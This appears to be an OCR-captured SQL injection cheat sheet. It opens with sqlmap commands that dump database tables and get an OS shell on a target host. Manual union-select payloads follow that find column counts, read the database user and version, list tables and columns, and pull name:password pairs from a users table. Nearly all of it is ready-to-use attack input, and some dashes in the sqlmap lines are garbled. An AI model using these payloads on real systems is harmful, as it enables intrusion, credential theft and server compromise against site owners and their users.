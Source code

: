 # dump tables from database 
sqlmap –u http://<targetip>/index.php?par= –dbs –D dbname –tables –-dump
sqlmap –u http://<targetip>/index.php?par= –dbs –D dbname –T tablename –-dump

# OS Shell
sqlmap -u http://<targetip>/comment.php?id=738 --dbms=mysql --osshell

--------------------------------

Manual sql injection commands

# check for sqli vulnerability
 
?id=1'

# find the number of columns
?id=1 order by 9-- -

# Find space to output db
?id=1 union select 1,2,3,4,5,6,7,8,9-- -
or 
?id=1 union select NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -

# Get username of the sql-user
?id=1 union select 1,2,3,4,user(),6,7,8,9-- -

# Get version
?id=1 union select 1,2,3,4,version(),6,7,8,9-- -

# Get all tables
?id=1 union select 1,2,3,4,table_name,6,7,8,9 from information_schema.tables-- -

# Get all columns from a specific table
?id=1 union select 1,2,3,4,column_name,6,7,8,9 from information_schema.columns where table_name = 'users'-- -

# Get content from the users-table. From columns name and password. (The 0x3a only servers to create a delimiter between name and password)
?id=1 union select 1,2,3,4,concat(name,0x3a,password),6,7,8,9 FROM users
